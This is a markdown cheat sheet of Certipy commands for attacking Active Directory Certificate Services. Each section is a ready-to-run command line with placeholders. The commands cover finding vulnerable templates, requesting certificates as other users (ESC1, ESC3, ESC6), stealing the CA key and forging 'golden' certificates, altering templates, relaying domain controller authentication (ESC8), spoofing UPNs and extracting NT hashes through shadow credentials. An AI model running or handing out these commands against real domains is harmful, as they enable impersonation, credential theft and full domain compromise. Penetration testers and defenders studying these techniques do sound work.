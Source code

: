 # certipy

#certipy
## certipy - list certificate templates
```
certipy find -u <user>@<domain> -p <password> -dc-ip <dc_ip> 
```

## certipy - find vulnerable
```
certipy find -u "<user>"@"<domain>" -p "<password>" -dc-ip "<target_ip>" -k -ns "<dc_ip>" -target "<dc_fqdn>" -vulnerable -stdout
```

## certipy - request certificate
```
certipy req -u <user>@<domain> -p <password> -target <ca-fqdn> -template <template> -ca <certificate-authority>
```

## certipy - authenticate with pfx certificate
```
certipy auth -pfx <pfx-file> 
```

## certipy - authenticate through LDAP (Schannel) with pfx certificate
```
certipy auth -pfx <pfx-file> -dc-ip <dc_ip> -ldap-shell
```

## certipy - Golden Certificate - steal CA certificate and private key
```
certipy ca -u <user>@<domain> -p <password> -backup -ca <certificate-authority> -target_ip <ca-ip>
```

## certipy - Golden Certificate - forge certificate
```
certipy forge -ca-pfx <pfx-file> -upn <user>@<domain> -crl ldap://<dc_ip>:389
```

## certipy - request certificate for another user - ESC1 - ESC6
```
certipy req -u <user>@<domain> -p <password> -target <ca-fqdn> -template <template> -ca <certificate-authority> -upn <targeted-user>@<domain>
```

## certipy - request certificate on behalf of with Certificate Request Agent certificate - ESC3
```
certipy req -u <user>@<domain> -p <password> -target <ca-fqdn> -template <template> -ca <certificate-authority> -on-behalf-of <NetBIOS-domain-name>\<targeted-user> -pfx <pfx-file>
```

## certipy - modify template in order to make it vulnerable to ESC1 - ESC4
```
certipy template -u <user>@<domain> -p <password> -template <template> -save-old
```

## certipy - Issue certificate for specific request id - ESC7
```
certipy ca -u <user>@<domain> -p <password> -ca <certificate-authority> -issue-request <csr-id>
```

## certipy - relay authentication to CA Web Enrollment - ESC8
```
certipy relay -ca <ca-fqdn>
```

## certipy - relay domain controller authentication to CA Web Enrollment - ESC8
```
certipy relay -ca <ca-fqdn> -template 'DomainController'
```

## certipy - Modify user upn to another one - ESC9 - ESC10
```
certipy account update -u <user>@<domain> -p <password> -user <targeted-user> -upn <administrator-user>
```

## certipy - Get NT hash - Shadow Credential
Full Chain exploit of Shadow Credential: Create a Key Credential, Authenticate to get NT hash and TGT, and remove the Key Credential
```
certipy shadow auto -u <user>@<domain> -p <password> -account <targeted-user>
```

